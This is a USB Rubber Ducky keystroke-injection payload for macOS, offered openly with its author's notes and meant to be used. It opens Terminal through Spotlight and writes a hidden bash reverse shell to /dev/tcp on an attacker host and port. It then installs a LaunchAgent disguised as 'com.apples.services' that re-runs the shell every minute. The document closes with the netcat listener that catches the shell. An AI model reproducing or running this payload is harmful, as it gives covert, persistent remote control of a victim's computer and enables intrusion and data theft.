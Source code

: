 * Author - Patrick Mosca
* Insert ducky. This script will created a persistent backdoor as the current user. It works by injecting code into a terminal from Spotlight. This payload was encoded with v2.4 on firmware duck_v2.1.hex. Change to your IP address or domain name and port number. 
* A good tutorial on the payload here: http://patrickmosca.com/root-a-mac-in-10-seconds-or-less/


 REM Patrick Mosca
REM A simple script for creating a persistent backdoor on OSX.
REM Change mysite.com to your domain name or IP address
REM Change 1337 to your port number
REM Catch the shell with 'nc -l -p 1337'
REM http://patrickmosca.com/root-a-mac-in-10-seconds-or-less/
DELAY 1000
GUI SPACE
STRING terminal
DELAY 500
ENTER
DELAY 500
STRING mkdir ~/Library/.hidden
ENTER
DELAY 200
STRING echo '#!/bin/bash
ENTER
STRING bash -i >& /dev/tcp/mysite.com/1337 0>&1
ENTER
STRING wait' > ~/Library/.hidden/connect.sh
ENTER
DELAY 500
STRING chmod +x ~/Library/.hidden/connect.sh
ENTER
DELAY 200
STRING mkdir ~/Library/LaunchAgents
ENTER
DELAY 200
STRING echo '<plist version="1.0">
ENTER
STRING <dict>
ENTER
STRING <key>Label</key>
ENTER
STRING <string>com.apples.services</string>
ENTER
STRING <key>ProgramArguments</key>
ENTER
STRING <array>
ENTER
STRING <string>/bin/sh</string>
ENTER
STRING <string>'$HOME'/Library/.hidden/connect.sh</string>
ENTER
STRING </array>
ENTER
STRING <key>RunAtLoad</key>
ENTER
STRING <true/>
ENTER
STRING <key>StartInterval</key>
ENTER
STRING <integer>60</integer>
ENTER
STRING <key>AbandonProcessGroup</key>
ENTER
STRING <true/>
ENTER
STRING </dict>
ENTER
STRING </plist>' > ~/Library/LaunchAgents/com.apples.services.plist
ENTER
DELAY 200
STRING chmod 600 ~/Library/LaunchAgents/com.apples.services.plist
ENTER
DELAY 200
STRING launchctl load ~/Library/LaunchAgents/com.apples.services.plist
ENTER
DELAY 200
GUI q 

Catch the shell with netcat:

 nc -l -p 1337